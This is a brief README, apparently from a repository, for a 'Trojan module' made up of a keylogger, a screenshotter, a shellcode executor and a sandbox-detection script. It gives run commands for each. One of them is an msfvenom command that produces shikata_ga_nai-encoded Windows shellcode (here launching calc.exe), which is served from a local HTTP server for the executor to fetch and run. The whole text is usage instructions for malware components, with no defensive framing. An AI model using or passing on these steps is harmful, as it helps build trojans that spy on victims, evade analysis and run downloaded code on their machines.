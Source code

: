 # The Trojan module
## keylogger.py
This should only work on Windows, but I didn't test it on other operating systems.
Run:
```bash
python keylogger.py
```

## screenshotter.py
Run:
```bash
python screenshotter.py
```
Check for a screenshot.bmp file in the current directory.

## shell-exec.py
First, generate the shellcode using msfvenom:
```bash
msfvenom -p windows/exec -e x86/shikata_ga_nai -i 1 -f raw cmd=calc.exe > shellcode.raw
```
Then, convert it into a bin file:
```bash
base64 -w 0 -i shellcode.raw > shellcode.bin
```
At last, on the current directory, run:
```bash
python -m http.server 8100
```
to start a mini-server in no time.
Now, run:
```bash
python shell_exec.py
```
to run the shellcode you just generated!

## sandbox-detect.py
```bash
python sandbox-detect.py
```
